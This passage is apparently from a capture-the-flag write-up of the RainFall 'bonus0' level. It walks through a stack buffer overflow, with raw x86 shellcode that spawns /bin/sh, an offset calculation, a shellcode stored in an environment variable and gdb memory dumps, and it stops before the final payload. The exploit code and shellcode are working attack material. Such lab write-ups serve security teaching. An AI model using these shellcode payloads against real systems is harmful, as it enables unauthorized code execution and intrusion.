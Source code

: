Our goal is to insert a **shellcode** split between the 2 user inputs, followed by placeholder characters and the `0xbffff616` address in last position to override the `old eip` in the `main()` stack frame in order to call our shellcode.

```bash
bonus0@RainFall:~$ (python -c "print('\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c')"; python -c "print('\x24\xb0\x0b\xcd\x80' + 'A' * 9 + '\x16\xf6\xff\xbf' + 'A')"; cat) | ./bonus0 
 - 
 - 
���//sh�/binQVW�$�
                  AAAAAAAAA���A $�
                                  AAAAAAAAA���A
whoami
Floating point exception (core dumped)
```

Unfortunately we cannot find a solution to this **floating point exception** error. The only probable cause for this error is this instruction `repnz scas al,BYTE PTR es:[edi]`, but we may be wrong.

We restart the level with a new approach.

First we use a pattern generator in order to validate the offset of the `old eip` address. We write 20 characters on the first `read()`, and the pattern on the second: an offset of **9 bytes** is found.

Then we use another shellcode from this [article](https://0xrick.github.io/binary-exploitation/bof5). One drawback is that it has a length of 55 characters, which is way too long to fit in our buffer. After some researches, we decide to store our new shellcode in an environment variable.

Finally, we have to find the address of this environment variable inside the executable.

```bash
export SHELLCODE=$(python -c "print('\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80')")
```

```
(gdb) x/32s $esp+500
0xbffff7fc:      "0/bonus0"
0xbffff805:      "LC_PAPER=fr_FR.UTF-8"
0xbffff81a:      "LC_ADDRESS=fr_FR.UTF-8"
0xbffff831:      "LC_MONETARY=fr_FR.UTF-8"
0xbffff849:      "SHELLCODE=1\300\061۰\006̀Sh/ttyh/dev\211\343\061\311f\271\022'\260\005̀1\300Ph//shh/bin\211\343PS\211ᙰ\v̀"
0xbffff88b:      "SHELL=/bin/bash"
0xbffff89b:      "TERM=xterm-256color"
0xbffff8af:      "SSH_CLIENT=192.168.56.1 36246 4242"
0xbffff8d2:      "LC_NUMERIC=fr_FR.UTF-8"
0xbffff8e9:      "SSH_TTY=/dev/pts/0"
0xbffff8fc:      "USER=bonus0"
0xbffff908:      "LC_TELEPHONE=fr_FR.UTF-8"
0xbffff921:      "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31"...
0xbffff9e9:      ":*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.d"...
0xbffffab1:      "eb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35"...
0xbffffb79:      ":*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mk"...
0xbffffc41:      "v=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35"...
```